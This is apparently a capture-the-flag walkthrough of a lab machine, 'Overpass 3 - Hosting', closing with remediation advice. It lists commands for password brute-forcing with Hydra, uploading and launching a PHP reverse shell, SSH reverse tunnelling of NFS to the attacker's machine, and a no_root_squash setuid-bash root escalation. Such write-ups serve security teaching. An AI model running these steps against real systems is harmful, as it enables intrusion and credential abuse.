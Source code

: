 # Overpass 3 - Hosting

- [Overpass 3 - Hosting](#overpass-3---hosting)
  - [Overview](#overview)
  - [Service Enumeration](#service-enumeration)
  - [Low-Privilege Access](#low-privilege-access)
  - [Root Access](#root-access)
  - [Findings and Recommendations](#findings-and-recommendations)

## Overview
Walkthrough for Overpass 3 - Hosting: web, user, and root flags.

*Note: The Server IP will be different in some screenshots.*

## Service Enumeration
A port scan reveals the machine is running FTP, SSH, and a web server.

<img src="images/enum/nmap_scan.png" alt="Port scan results" width="60%" height="60%"> <br>

Navigating to `http://10.10.167.189` brings us to the Overpass homepage.

<img src="images/enum/overpass_homepage.png" alt="Overpass Hosting Homepage" width="50%" height="50%"> <br>

Start a web directory scan.
```
feroxbuster -u http://10.10.167.189 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -k -n -r -t 75 --smart
```

While the scan runs, look around the site.

Nothing sticks out.

Luckily, the scan found a page with an interesting file: `/backups/backup.zip`.

<img src="images/enum/web_dir_scan.png" alt="Web directory scan results" width="60%" height="60%"> <br>

## Low-Privilege Access
> Contains web and user flags
Download and unzip `backup.zip`.
```
wget http://10.10.167.189/backups/backup.zip
unzip backup.zip
```

There will be two new files:
1. `CustomerDetails.xlsx.gpg`
2. `priv.key`

<img src="images/lowpriv/backup_extracted.png" alt="Extracted backup files" width="50%" height="50%"> <br>

The spreadsheet is encrypted but it looks like we have a private key that could be used to decrypt it.

Import the private key.
```
gpg import priv.key
```

<img src="images/lowpriv/gpg_import_key.png" alt="GPG Import private key" width="50%" height="50%"> <br>

Use the key to unlock the spreadsheet. GPG will print out info about the key and encrypted file but they are not errors.
```
gpg --decrypt --output CustomerDetails.xlsx --recipient C9AE71AB3180BC08 CustomerDetails.xlsx.gpg
```

<img src="images/lowpriv/gpg_decrypt_output.png" alt="GPG key and file output" width="50%" height="50%"> <br>

Open the spreadsheet to find usernames and passwords. Place these into a file.

Attempt to bruteforce SSH using Hydra.
```
hydra -L users-customerdetails.txt -P passwords-customerdetails.txt -e nsr -f -u -t 8 ssh://10.10.167.189
```

<img src="images/lowpriv/hydra_bruteforce_ssh.png" alt="Hydra - SSH bruteforce" width="65%" height="65%"> <br>

It fails - passwords logins are not supported.

Attempt to bruteforce FTP.
```
hydra -L users-customerdetails.txt -P passwords-customerdetails.txt -e nsr -f -u -t 8 ftp://10.10.167.189
```

<img src="images/lowpriv/hydra_bruteforce_ftp.png" alt="Hydra - FTP bruteforce" width="50%" height="50%"> <br>

Success! Login to the FTP server as paradox.

```
ftp paradox@10.10.167.189
```

The directory looks similar to the web server.

<img src="images/lowpriv/ftp_list_dir.png" alt="FTP - directory listing" width="40%" height="40%"> <br>

Confirm write access by creating a test file and uploading it.
```
echo hello > testfile.txt
put testfile.txt
```

<img src="images/lowpriv/ftp_write_access.png" alt="FTP - upload file" width="40%" height="40%"> <br>

Go to `http://10.10.167.189/testfile.txt` and confirm the file shows up there.

<img src="images/lowpriv/ftp_verify_write_access.png" alt="FTP - verify file upload" width="40%" height="40%"> <br>

Fantastic - let's try grab and configure a PHP reverse shell! :D
```
cp /usr/share/webshells/php/php-reverse-shell.php rshell1.php
```

<img src="images/lowpriv/php_rshell_config.png" alt="Setup PHP reverse shell" width="25%" height="25%"> <br>

Upload it via FTP and start a Netcat listener.

Launch the reverse shell by going to `http://10.10.167.189/rshell1.php` and gain access as `apache`.

<img src="images/lowpriv/php_rshell_launch.png" alt="Launch PHP reverse shell" width="50%" height="50%"> <br>

The web flag is found at `/usr/share/httpd/web.flag`.

According to `/etc/passwd`, the users `james` and `paradox` are on the system.

<img src="images/lowpriv/apache_etc_passwd.png" alt="Notable users in /etc/passwd" width="35%" height="35%"> <br>

Upgrade to an interactive shell (properly displays user prompts) and login as `paradox` using the password from the spreadsheet.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
su paradox
```

<img src="images/lowpriv/apache_su_paradox.png" alt="Login as paradox" width="35%" height="35%"> <br>

After poking around, it may be apparent that some commands don't work. Checking `$PATH` reveals some expected entries; this isn't a big issue, it just means we'll have to specify the full path. 

<img src="images/lowpriv/paradox_path.png" alt="Paradox $PATH" width="50%" height="50%"> <br>

`/bin` and `/sbin` are also mapped to `/usr/bin` and `/usr/sbin`, further limiting access.

<img src="images/lowpriv/paradox_bin_symlink.png" alt="Paradox binary symlinks" width="35%" height="35%"> <br>

The NFS configuration at `/etc/exports` show we may be able to mount and access `/home/james` as a network share.

<img src="images/lowpriv/paradox_nfs_config.png" alt="Paradox NFS config" width="35%" height="35%"> <br>

Verify the NFS service is running.
```
/usr/sbin/ss -atp
```

<img src="images/lowpriv/paradox_ss_output.png" alt="Paradox verify NFS listening" width="50%" height="50%"> <br>

NFS is TCP 2049 and mountd is TCP 20048. This can be confirmed with rpcinfo. Both ports are needed for us to mount `/home/james` as an NFS share.
```
rpcinfo -p
```

<img src="images/lowpriv/paradox_rpcinfo.png" alt="Paradox rpcinfo output" width="25%" height="25%"> <br>

This means we may have remote access to the `/home/james` directory. However, these ports did not show up in the port scan, so they may be blocked. Logging into SSH as `paradox` also doesn't work which rules out a local port forward. 

But what if we started the SSH connection from the server back to our attacking machine and do a [remote port forward](https://confluence.crbs.ucsd.edu/display/CRBS/SSH+tunnel+NFS+share)?

On the server, create a new SSH keypair with a blank passphrase. The example filename used is `is_rsa_kera`.
```
ssh-keygen
/home/paradox/.ssh/id_rsa_kera
```

<img src="images/lowpriv/paradox_create_ssh_keys.png" alt="Paradox create SSH keypair" width="50%" height="50%"> <br>

Copy the contents of the public key (/home/paradox/.ssh/id_rsa_kera.pub) and save it to the `~/.ssh/authorized_keys` on the attacking machine. Here is an example entry:

```
from="<SERVER IP>",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa <PUBLIC KEY>
```

<img src="images/lowpriv/ssh_authorized_keys.png" alt="SSH authorized keys" width="75%" height="75%"> <br>

Start an SSH server on the attacking machine.

From the server, start an SSH connection to the attacking machine, doing a remote port forward for NFS and mountd.

```
ssh -f -N \
-R 10.13.34.103:2222:127.0.0.1:2049 \
-R 10.13.34.103:2223:127.0.0.1:20048 \
-i ~/.ssh/id_rsa_kera kera@10.13.34.103 
```

<img src="images/lowpriv/paradox_ssh_tunnel_initiate.png" alt="Paradox start SSH tunnel" width="25%" height="25%"> <br>

The port mappings used in the example are:
- *Attack Machine:2222 <-> Overpass:2049* - nfs
- *Attack Machine:2223 <-> Overpass:20048* - mountd

This means traffic sent to our attack machine on *TCP 2222* will travel over SSH and arrive at the server on *TCP 2049*, bypassing filters that were preventing our direct connection. Same goes for *TCP 2223* and *TCP 20048*.

On the attacking machine, create a local mount point and mount the remote share.
```
sudo mkdir /mnt/james
sudo mount -t nfs -o tcp,port=2222 127.0.0.1:/home/james /mnt/james
```

<img src="images/lowpriv/mount_james_share.png" alt="Mount james NFS share" width="50%" height="50%"> <br>

The user flag is found at `/mnt/james/user.flag`.

## Root Access
Our NFS share was configured with the `no_root_squash` option. This post from [thegeekdiary](https://www.thegeekdiary.com/basic-nfs-security-nfs-no_root_squash-and-suid/) explains that *root_squash* is a feature that prevents the NFS client (our attack machine) from accessing files as root. With this option turned off, we can modify files on `/home/james` as root.

<img src="images/privesc/nfs_root_squash.png" alt="NFS root squash settings" width="35%" height="35%"> <br>

On the server (as `james`), make a copy of bash.
```
cp /bin/bash /home/james/bash
```

On the attacking machine, transfer ownership of bash to root and configure setuid. [Steflan](https://steflan-security.com/linux-privilege-escalation-exploiting-nfs-shares/) provides clear instructions on how to do this.
```
cd /mnt/james
sudo chown root:root bash
sudo chmod +s bash
```

<img src="images/privesc/james_bash_setuid.png" alt="james bash setuid" width="35%" height="35%"> <br>

On the attacking machine, launch this copy of bash with the `-p` flag to keep the root permissions.
```
./bash -p
```

<img src="images/privesc/root_shell.png" alt="Root shell" width="35%" height="35%"> <br>

The flag is found at `/root/root.flag`.

## Findings and Recommendations
**Unsecured Backups**

Customer information and user passwords were obtained via publicly available backup files obtained on the web server. Apply strict access controls to backups and other sensitive information and store them in a sepa-rate location.

**Unsecured Credentials**

Ensure that private keys are stored in a secure location and are protected with a strong passphrase. A private GPG key, found in the same location as the backups, was used to decrypt the files. A private SSH key was also used during the privilege escalation process. Both did not require a password. 

While it could not be used for SSH, the password for `paradox` found in the customer information was used for FTP and local Linux access. If possible, avoid reusing passwords and try to enable multi-factor authentication.

**Insecure Network Share Permissions**

Insecure NFS permissions allowed remote access to `/home/james` and escalation to `root`. While network controls prevented direct NFS connections, having access to `paradox` allowed NFS to be sent over SSH, bypassing these controls. Specify allowed networks in the configuration and remove the `no_root_squash` option to prevent root access.